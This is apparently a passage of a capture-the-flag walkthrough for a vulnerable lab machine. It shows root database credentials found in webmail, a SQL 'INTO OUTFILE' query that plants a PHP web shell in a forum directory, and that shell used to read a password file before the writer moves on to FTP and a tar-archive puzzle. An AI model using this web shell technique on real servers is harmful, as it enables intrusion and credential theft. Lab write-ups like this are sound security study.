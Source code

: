 
On `https://[ip]/webmail`:\
Connexion with the same password\
Open mail `DB access`:
```
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
```

On `https://[ip]/phpmyadmin`:\
Connect with :
- user : `root`
- password : `Fg-'kKXBj87E:aJ$`

Creation of a backdoor allowing us to execute shell commands:
```
SELECT 1,  '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/myfile.php'
```
```
https://[ip]/forum/templates_c/myfile.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```
These identifiers allows us to connect to ftp using FileZilla and downloads 2 files (README and fun)
```
$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
$ strings fun
...
		printf("Hahahaha Got you!!!\n");
//file632
ft_fun/Y8S1M.pcap
0000640
0001750
0000144
00000000014
12563172202
012523
ustar  
users
//file55
...
$ file fun
fun: POSIX tar archive (GNU)
$ mv fun fun.tar.gz
$ tar -xf fun.tar.gz
$ strings fun.tar.gz | grep printf
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
```